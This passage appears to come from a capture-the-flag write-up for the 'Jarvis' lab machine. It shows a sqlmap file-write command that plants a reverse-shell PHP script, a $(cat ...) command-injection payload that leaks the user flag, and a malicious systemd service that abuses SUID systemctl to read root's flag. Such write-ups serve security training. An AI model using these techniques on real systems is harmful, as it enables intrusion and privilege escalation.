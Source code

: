 Firstly, we can use sqlmap to upload the reverse php script to /var/www/html/shell.php

```
sqlmap -u "http://jarvis.htb/room.php?cod=1" --random-agent --level 1 --risk 1 --batch --file-write /home/kali/Desktop/shell.php --file-dest /var/www/html/shell.php
```

Afterwards, all we have to do is to visit http://jarvis.htb/shell.php to spawn the reverse shell.

### Alternative way to obtain flag from command injection

Since we are able to execute simpler.py with the privileges of pepper, we are also able to modify the command injection payload to read the user flag instead of spawning a reverse shell.

```
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(cat /home/pepper/user.txt)
$(cat /home/pepper/user.txt)
ping: <REDACTED USER FLAG>: Temporary failure in name resolution
www-data@jarvis:/tmp$ 
```

### Alternative way of obtaining root flag using systemctl

Another alternative way of obtaining the root flag using systemctl is to just redirect the contents of the /root/root.txt into a file in the /home/pepper directory.

Since the systemctl has SUID bits, systemctl will be executed with root privileges which in turn, allow us to read and redirect the contents of /root/root.txt file into a file in the /home/pepper directory.

To start off, we would have to modify the executed commands to become ```/bin/bash -c "cat /root/root.txt > /home/pepper/flag.txt"```

```
pepper@jarvis:/dev/shm$ cat >exploit7.service<<EOF
cat >exploit7.service<<EOF
> [Service]
> Type=oneshot
> ExecStart=/bin/bash -c "cat /root/root.txt > /home/pepper/flag.txt"
> 
> [Install]
> WantedBy=multi-user.target
> EOF
```
